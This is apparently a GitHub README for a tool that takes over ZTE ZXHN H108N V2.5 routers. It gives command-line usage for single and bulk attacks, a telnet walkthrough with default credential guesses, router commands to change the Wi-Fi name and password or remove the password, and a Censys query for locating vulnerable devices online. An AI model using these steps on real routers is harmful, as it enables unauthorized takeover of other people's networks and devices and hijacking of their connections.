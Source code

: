 # Zata-Router-Takeover
ZTE ZXHN H108N V2.5 Router Takeover Tool
### Single Host Attack: <br>
java main (Gateway IP / IP of the Portal) (ssid) (Password) <br>
ssid = Name of the Network (Wireless) <br>
Password = Password of the Network (Wireless) <br>
### Multi Host Attack: <br>
java bulk (ssid) (Password) <br>
in hosts.txt type: <br>
192.168.1.1,192.168.1.11, <br>
to Attack 192.168.1.1 and 192.168.1.11. <br>
### 2-Telnet Attack (If port 23 is open):
 First, Let’s get our Gateway IP Address. Which is often 192.168.1.1.. <br>
 Then let’s scan our IP with nmap, We’ll see that port 23 is open. <br>
 let’s establish a connection. He Asks for the Username and Password.. <br>
 We can use https://github.com/Ligeti15/ZXHN-H108N-Login .Or try these. <br>
 Usernames: admin root zte public toor <br>
 Passwords: admin root zte public toor <br>
 BOOM ! .Now we have access to the Gateway. You will see something like ZTE> <br>
 Commands: <br>
 - ip dhcp br0 status → See Devices Connected to the Router <br>
 - rt node ssid [NAME] → Change the SSID of the Wi-Fi to [NAME] <br>
 - rt node wpapsk [PASSWORD] → Change the Password of the Wi-Fi to [PASSWORD] <br>
 - rt node save → Save Changes <br>
 - rt node authmode open → Remove the Password and Open the Network <br>
 - show all / sys atsh / rtwlan rtdisp → Show Information <br>
 Also You can Discover all Options Available with these Commands: <br>
 - ? → General Commands <br>
 - rt ? → Wireless Commands <br>
 *You can Search Censys for Vulnerable Devices using this Query: (80.http.get.title%3A+ZXHN+H108N+V2.5)*
